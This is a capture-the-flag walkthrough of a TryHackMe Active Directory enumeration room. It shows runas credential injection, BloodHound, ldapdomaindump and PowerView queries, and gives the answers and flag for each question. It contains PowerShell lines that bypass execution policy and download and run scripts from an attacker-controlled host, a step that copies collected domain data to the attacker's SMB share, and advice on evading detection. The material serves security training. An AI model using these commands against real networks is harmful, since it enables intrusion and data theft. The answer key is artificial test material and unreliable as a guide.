## Why AD Enumeration



## Credential Injection

### Runas Explained

Have you ever found AD credentials but nowhere to log in with them? Runas may be the answer you've been looking for!

In security assessments, you will often have network access and have just discovered AD credentials but have no means or privileges to create a new domain-joined machine. So we need the ability to use those credentials on a Windows machine we control.

If we have the AD credentials in the format of :, we can use Runas, a legitimate Windows binary, to inject the credentials into memory. The usual Runas command would look something like this:

```
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

Let's look at the parameters:

- **/netonly** - Since we are not domain-joined, we want to load the credentials for network authentication but not authenticate against a domain controller. So commands executed locally on the computer will run in the context of your standard Windows account, but any network connections will occur using the account specified here.
- **/user** - Here, we provide the details of the domain and the username. It is always a safe bet to use the Fully Qualified Domain Name (FQDN) instead of just the NetBIOS name of the domain since this will help with resolution.
- **cmd.exe** - This is the program we want to execute once the credentials are injected. This can be changed to anything, but the safest bet is cmd.exe since you can then use that to launch whatever you want, with the credentials injected.

Once you run this command, you will be prompted to supply a password. Note that since we added the /netonly parameter, the credentials will not be verified directly by a domain controller so that it will accept any password. We still need to confirm that the network credentials are loaded successfully and correctly.

**Note:** If you use your own Windows machine, you should make sure that you run your first Command Prompt as Administrator. This will inject an Administrator token into CMD. If you run tools that require local Administrative privileges from your Runas spawned CMD, the token will already be available. This does not give you administrative privileges on the network, but will ensure that any local commands you execute, will execute with administrative privileges.

### IP vs Hostnames

**Question:** _Is there a difference between_ _`dir \\za.tryhackme.com\SYSVOL` and `dir \\<DC IP>\SYSVOL`_ _and why the big fuss about DNS?_

There is quite a difference, and it boils down to the authentication method being used. When we provide the hostname, network authentication will attempt first to perform Kerberos authentication. Since Kerberos authentication uses hostnames embedded in the tickets, if we provide the IP instead, we can force the authentication type to be NTLM. While on the surface, this does not matter to us right now, it is good to understand these slight differences since they can allow you to remain more stealthy during a Red team assessment. In some instances, organisations will be monitoring for OverPass- and Pass-The-Hash Attacks. Forcing NTLM authentication is a good trick to have in the book to avoid detection in these cases.

### Questions

#### What native Windows binary allows us to inject credentials legitimately into memory?

>runas.exe

#### What parameter option of the runas binary will ensure that the injected credentials are used for all network connections?

> /netonly

#### What network folder on a domain controller is accessible by any authenticated AD account and stores GPO information?

> SYSVOL

#### When performing dir \\\\za.tryhackme.com\\SYSVOL, what type of authentication is performed by default?

> kerberos authentication

## Enumeration through Microsoft Management Console

### Access Machine

```bash
sshpass -p 'Password!' ssh -o "StrictHostKeyChecking no" za.tryhackme.com\\kimberley.smith@thmjmp1.za.tryhackme.com
```

### ldapdomaindump

**ldapdomaindump** will output detailed active directory structure in a pretty HTML

```bash
ldapdomaindump -o ldap_dump -r 10.200.76.101 -u za.tryhackme.com\\kimberley.smith -p 'Password!'
```





### BloodHound

```bash
sudo neo4j start
bloodhound
```

```bash
┌──(kali㉿kali)-[~/thm/enumeratead]
└─$ bloodhound-python -d za.tryhackme.com -u kimberley.smith -p Password! -c all --zip
INFO: Found AD domain: za.tryhackme.com
INFO: Getting TGT for user
INFO: Connecting to LDAP server: THMDC.za.tryhackme.com
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: THMDC.za.tryhackme.com
INFO: Found 2034 users
INFO: Found 58 groups
INFO: Found 5 gpos
INFO: Found 28 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: THMJMP1.za.tryhackme.com
INFO: Querying computer: THMMDT.za.tryhackme.com
INFO: Querying computer: THMIIS.za.tryhackme.com
INFO: Querying computer: THMDC.za.tryhackme.com
INFO: Done in 02M 00S
INFO: Compressing output into 20230702154947_bloodhound.zip
```

Drag and drop zip file to bloodhound GUI

### PowerView

Host:

```bash
ln -s /opt/sectools/powershell/PowerSploit/Recon/PowerView.ps1 powerview.ps1
python -m http.server 80
```

Load on target:

```bash
powershell -ep bypass
iex(new-object system.net.webclient).downloadstring('http://10.50.68.167/powerview.ps1')
```

### Questions

#### How many Computer objects are part of the Servers OU?

##### MMC

Connecting via RDP to lookup with GUI is much easier

Using **remmina**





##### PowerView

> Powerview CheatSheet  - https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview#users-groups-computers-and-ous

```bash
PS C:\Users\kimberley.smith> Get-DomainOU -Properties Name | sort -Property Name

name
----
Accounts
Admins
Admins
Computers
Consulting
Contoso
Domain Controllers
Engineering
Finance
Groups
Groups
Human Resources
IT
Marketing
People
Sales
Security Groups
Servers
Servers
Service Accounts
T0
T1
T2
Unix
Users
Workstations
Workstations
ZA

PS C:\Users\kimberley.smith> Get-DomainOU "Servers" | %{Get-DomainComputer -SearchBase $_.distinguishedname -Properties Name}

name
----
THMIIS
THMMDT
```

> 2

#### How many Computer objects are part of the Workstations OU?

##### Blood Hound



##### Powerview

> Cheatsheet - https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview#users-groups-computers-and-ous

```bash
PS C:\Users\kimberley.smith> Get-DomainOU "Workstations" | %{Get-DomainComputer -SearchBase $_.distinguishedname -Properties Name}

name
----
THMJMP1
```

> 1

#### How many departments (Organisational Units) does this organisation consist of?

##### MMC

Connecting via RDP to lookup with GUI is much easier



##### PowerView

> Cheatsheet - https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview#users-groups-computers-and-ous

```bash
PS C:\Users\kimberley.smith> Get-DomainOU -SearchBase "LDAP://OU=People,DC=za,DC=tryhackme,DC=com" | select name

name
----
People
Consulting
Sales
Engineering
IT
Marketing
Human Resources
Finance
```

> 7

#### How many Admin tiers does this organisation have?

##### ldapdomaindump



##### PowerView

> Cheatsheet - https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview#users-groups-computers-and-ous

```bash
PS C:\Users\kimberley.smith> Get-DomainGroup | where Name -like "Tier ? Admins" | select SamAccountName

samaccountname
--------------
Tier 2 Admins
Tier 1 Admins
Tier 0 Admins
```

> 3

#### What is the value of the flag stored in the description attribute of the t0_tinus.green account?

##### ldapdomaindump



##### PowerView

> Cheatsheet - https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview#users-groups-computers-and-ous

```bash
PS C:\Users\kimberley.smith> Get-NetUser "t0_tinus.green" | select samaccountname, description

samaccountname description
-------------- -----------
t0_tinus.green THM{Enumerating.Via.MMC}
```

> THM{Enumerating.Via.MMC}

## Enumeration through Command Prompt

### Questions

#### Apart from the Domain Users group, what other group is the aaron.harris account a member of?

```bash
PS C:\Users\kimberley.smith> net user /domain "aaron.harris"
The request will be processed at a domain controller for domain za.tryhackme.com.

User name                    aaron.harris
Full Name                    Aaron Harris
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/24/2022 11:05:11 PM
Password expires             Never
Password changeable          2/24/2022 11:05:11 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Internet Access
The command completed successfully.
```

> Internet Access

#### Is the Guest account active? (Yay,Nay)

```bash
PS C:\Users\kimberley.smith> net user /domain guest
The request will be processed at a domain controller for domain za.tryhackme.com.

User name                    Guest
Full Name
Comment                      Built-in account for guest access to the computer/domain
User's comment
Country/region code          000 (System Default)
Account active               No
Account expires              Never

Password last set            7/2/2023 7:03:54 PM
Password expires             Never
Password changeable          7/2/2023 7:03:54 PM
Password required            No
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Guests
Global Group memberships     *Domain Guests
The command completed successfully.
```

> nay

#### How many accounts are a member of the Tier 1 Admins group?

```bash
PS C:\Users\kimberley.smith> net group /domain
The request will be processed at a domain controller for domain za.tryhackme.com.


Group Accounts for \\THMDC.za.tryhackme.com

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*HR Share RW
*Internet Access
*Key Admins
*Protected Users
*Read-only Domain Controllers
*Schema Admins
*Server Admins
*Tier 0 Admins
*Tier 1 Admins
*Tier 2 Admins
The command completed successfully.
```

```bash
PS C:\Users\kimberley.smith> net group /domain "Tier 1 Admins"
The request will be processed at a domain controller for domain za.tryhackme.com.

Group name     Tier 1 Admins
Comment

Members

-------------------------------------------------------------------------------
t1_arthur.tyler          t1_gary.moss             t1_henry.miller
t1_jill.wallis           t1_joel.stephenson       t1_marian.yates
t1_rosie.bryant
The command completed successfully.
```

> 7

#### What is the account lockout duration of the current password policy in minutes?

```bash
PS C:\Users\kimberley.smith> net accounts /domain
The request will be processed at a domain controller for domain za.tryhackme.com.

Force user logoff how long after time expires?:       Never
Minimum password age (days):                          0
Maximum password age (days):                          Unlimited
Minimum password length:                              0
Length of password history maintained:                None
Lockout threshold:                                    Never
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        PRIMARY
The command completed successfully.
```

> 30

## Enumeration through PowerShell

[[#Enumeration through Microsoft Management Console#PowerView]]

### Questions

#### What is the value of the Title attribute of Beth Nolan (beth.nolan)?

```bash
PS C:\Users\kimberley.smith> Get-NetUser "beth.nolan" | select title

title
-----
Senior
```

> Senior

#### What is the value of the DistinguishedName attribute of Annette Manning (annette.manning)?

```bash
PS C:\Users\kimberley.smith> Get-NetUser "annette.manning" | select distinguishedname

distinguishedname
-----------------
CN=annette.manning,OU=Marketing,OU=People,DC=za,DC=tryhackme,DC=com
```

> CN=annette.manning,OU=Marketing,OU=People,DC=za,DC=tryhackme,DC=com

#### When was the Tier 2 Admins group created?

```bash
PS C:\Users\kimberley.smith> Get-DomainGroup "Tier 2 Admins" | select whencreated

whencreated
-----------
2/24/2022 10:04:41 PM
```

> 2/24/2022 10:04:41 PM

#### What is the value of the SID attribute of the Enterprise Admins group?

```bash
PS C:\Users\kimberley.smith> Get-DomainGroup "Enterprise Admins" | select objectsid

objectsid
---------
S-1-5-21-3330634377-1326264276-632209373-519
```

> S-1-5-21-3330634377-1326264276-632209373-519

#### Which container is used to store deleted AD objects?

This command is not from powerview, it's a feature from the AD management powershell module of Microsoft

```bash
PS C:\Users\kimberley.smith> Get-ADDomain|select DeletedObjectsContainer

DeletedObjectsContainer
-----------------------
CN=Deleted Objects,DC=za,DC=tryhackme,DC=com
```

> CN=Deleted Objects,DC=za,DC=tryhackme,DC=com

## Enumeration through Bloodhound

### BloodHound 

Start Bloodhound: [[#Enumeration through Microsoft Management Console#BloodHound]]

**Collect data from target locally**

Start server

```bash
ln -s /opt/sectools/powershell/SharpHound.ps1
python -m http.server 80
```

```bash
mkdir smb && cd smb
smbserver.py -smb2support s . -username s -password s
```

Start Collector on target

```bash
powershell -ep bypass
iex(new-object system.net.webclient).downloadstring('http://10.50.68.167/SharpHound.ps1')
Invoke-Bloodhound -c all -zipfilename temp.zip
net use \\10.50.68.167\s /user:s s
mv 20230703053053_temp.zip \\10.50.68.167\s\
```

> Keep in mind powershel DOES NOT have `--` parameter exist

Drag and drop the zip to Bloodhound

### Questions

#### What command can be used to execute Sharphound.exe and request that it recovers Session information only from the za.tryhackme.com domain without touching domain controllers?

> [BloodHound Docs](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html)

> SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs

#### Apart from the krbtgt account, how many other accounts are potentially kerberoastable?





> 4

#### How many machines do members of the Tier 1 Admins group have administrative access to?



Not shown because of blood hound version diff

> 2

#### How many users are members of the Tier 2 Admins group?



> 15
